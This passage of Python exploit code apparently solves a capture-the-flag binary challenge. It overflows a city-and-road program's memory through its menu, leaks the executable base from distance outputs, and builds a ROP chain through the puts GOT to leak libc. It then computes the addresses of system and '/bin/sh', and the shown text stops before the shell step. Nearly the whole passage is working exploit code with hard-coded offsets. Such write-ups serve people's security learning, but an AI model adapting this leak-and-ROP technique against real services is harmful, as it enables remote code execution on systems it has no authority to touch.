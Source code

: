 ```python
  p.sendlineafter('2:', city2)

def end():
  p.sendlineafter('>', '4')

list_names = []
for i in range(100):
  list_names.append(''.join([random.choice(string.ascii_lowercase) for j in range(10)]))
  create_city(list_names[i])

# Overflow
create_city('pwner')


## EXEC LEAK
short_path('pwner', list_names[51])
p.recvuntil(": ")
l = struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

short_path('pwner', list_names[50])
p.recvuntil(": ")
l +=  struct.pack("<i", int(p.recvuntil("km")[:-2]))[::-1].encode('hex')

l = int(l, 16)
exec_base = l - 0x96b
print "EXEC BASE LEAK"
print hex(exec_base)

pop_rdi = exec_base + 0x1273
pop_rsi_r15 = exec_base + 0x1271
just_ret = exec_base + 0x1274
main = exec_base + 0x11f1
puts_got = exec_base + 0x201f98
puts_plt = exec_base + 0x790


# WRITE TIME

build_road('pwner', list_names[6], str(pop_rdi & 0xffffffff))
build_road('pwner', list_names[7], str((pop_rdi>>32) & 0xffffffff))

build_road('pwner', list_names[8], str(puts_got & 0xffffffff))
build_road('pwner', list_names[9], str((puts_got>>32) & 0xffffffff))

build_road('pwner', list_names[10], str(puts_plt & 0xffffffff))
build_road('pwner', list_names[11], str((puts_plt>>32) & 0xffffffff))

build_road('pwner', list_names[12], str(main & 0xffffffff))
build_road('pwner', list_names[13], str((main>>32) & 0xffffffff))

end()

## LIBC LEAK
l = int(p.recvuntil('\x7f')[-6:][::-1].encode('hex'), 16)

libc_base = l - 0x81010
system_address = libc_base + 0x50300
bin_sh_address = libc_base + 0x1aae80

print hex(system_address)



```